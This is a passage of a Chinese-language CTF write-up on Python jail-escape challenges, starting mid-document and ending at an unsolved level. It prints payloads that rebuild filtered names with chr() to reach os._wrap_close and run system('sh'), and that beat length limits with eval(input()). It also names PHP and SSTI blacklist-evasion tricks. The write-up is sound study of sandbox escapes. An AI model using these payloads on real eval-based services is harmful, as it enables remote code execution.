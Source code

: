 解法3：寻找子类

> `().__class__.__base__.__subclasses__()`
>
> 由于过滤了b，使用`getattr()`和`chr()`拼接绕过

> `__base__`：
> chr(95)+chr(95)+chr(98)+chr(97)+chr(115)+chr(101)+chr(95)+chr(95)
>
> `__subclasses__`：
> chr(95)+chr(95)+chr(115)+chr(117)+chr(98)+chr(99)+chr(108)+chr(97)+chr(115)+chr(115)+chr(101)+chr(115)+chr(95)+chr(95)

```py
getattr(getattr(().__class__,__base__),__subclasses__)()
```

这样就获取到了object基类的所有子类
发现倒数第四个类为`<class 'os._wrap_close'>`

```python
getattr(getattr(getattr(getattr(().__class__,__base__),__subclasses__)()[-4],__init__),__globals__)['system']('sh')
```

上面引号处和被ban字符处换成chr拼接即可

#### 3. calc_jail_beginner_level2

```py
#the length is be limited less than 13
#it seems banned some payload 
#Can u escape it?Good luck!
input_data = input("> ")
if len(input_data)>13:
    print("Oh hacker!")
    exit(0)
print('Answer: {}'.format(eval(input_data)))
```

显然直接使用`__import__('os').system('sh')`超出了长度限制
PHP的RCE中有一种参数逃逸的手法，如：`/?cmd=system($_POST[1]);&1=ls`
SSTI中也存在，可以利用request.args或request.cookies获取参数，以此逃过黑名单
下面的方法有着异曲同工之妙

仿照服务端程序执行代码的逻辑：获取我们的input，放入eval执行
我们同样可以再套一层，`eval(input())`

#### 4. calc_jail_beginner_level3

```py
input_data = input("> ")
if len(input_data)>7:
    print("Oh hacker!")
    exit(0)
res = eval(input_data)
print('Answer: {}'.format(res))
```
